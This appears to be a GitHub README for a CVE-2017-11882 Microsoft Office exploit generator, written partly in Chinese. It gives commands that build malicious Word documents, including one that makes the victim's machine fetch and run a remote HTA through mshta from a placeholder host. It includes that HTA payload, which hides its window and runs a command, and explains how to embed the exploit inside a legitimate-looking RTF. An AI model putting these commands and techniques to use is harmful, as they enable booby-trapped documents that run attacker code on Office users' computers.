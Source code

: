 # CVE-2017-11882

43b 原脚本来自于 https://github.com/embedi/CVE-2017-11882

109b 原脚本来自于 https://github.com/unamer/CVE-2017-11882/ （膜一波，现在unamer的代码已经可以执行shellcode了~）


CVE-2017-11882:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/

MITRE CVE-2017-11882:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research:
https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis:
https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation:
https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410


## Usage


```python
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

use mshta
```python
python Command_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```
abc
```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 

```

>43b命令长度不能超过43 bytes，109b命令长度不能超过109 bytes

# Sample exploit for CVE-2017-11882 (starting calc.exe as payload)

`example` folder holds an .rtf file which exploits CVE-2017-11882 vulnerability and runs calculator in the system.

## 关于自定义内容

其实关于自定义内容的姿势也是跟别的师傅学来的，很早之前就已经写成脚本了，本来不打算公开，但是看到小组内已经有人发出来了，没办法，只能公开了，其实方式很简单，只需要文本文件打开正常的文档rtf，复制{\*\datastore 之前的所有内容，替换 {\object\objautlink\objupdate之前的内容即可，所以写到脚本里面就很简单了。

添加自定义内容使用方式,选择任意脚本：

```
python Command109b_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc -i input.rtf
```

自定义内容在input.rtf中。


关于unamer的最新的605字节利用脚本就不更新了，有兴趣自己改。


